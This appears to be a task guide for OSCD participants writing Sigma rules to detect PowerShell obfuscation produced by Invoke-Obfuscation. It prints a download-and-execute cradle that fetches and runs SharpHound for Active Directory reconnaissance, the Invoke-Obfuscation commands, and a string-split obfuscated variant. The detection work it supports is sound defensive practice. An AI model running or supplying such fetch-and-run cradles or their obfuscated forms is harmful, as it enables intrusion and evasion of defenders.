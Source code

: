# Hello, fellow OSCD participant!
This is your guide on how you can help us with soving this issue.

# Tasklist
You can pick up some of the methods of PowerShell command and script obfuscation, provided by the [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) framework from the table below and develop Sigma rules for them. You will need to use [regular expressions](https://github.com/Neo23x0/sigma/wiki/Specification#types) in Sigma rules.

## Original command
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```

## Invoke-Obfuscation premise
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```
## 

| Case # | Option #1 | Option #2 | Option #3 | Result |
| :--: | ------- | --- | --- | --- |
| 2 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(('ht'+'tp'+'s://raw.gith'+'ubus'+'e'+'rcont'+'ent.com/BloodHo'+'und'+'A'+'D'+'/B'+'loo'+'dHo'+'un'+'d/a7'+'e'+'a5'+'36'+'387'+'0d92'+'5bc31'+'d'+'3'+'a441a361f38b0a'+'add0b'+'/Inge'+'s'+'tors/'+'Shar'+'pHou'+'n'+'d'+'.ps'+'1')); Invoke-BloodHound |


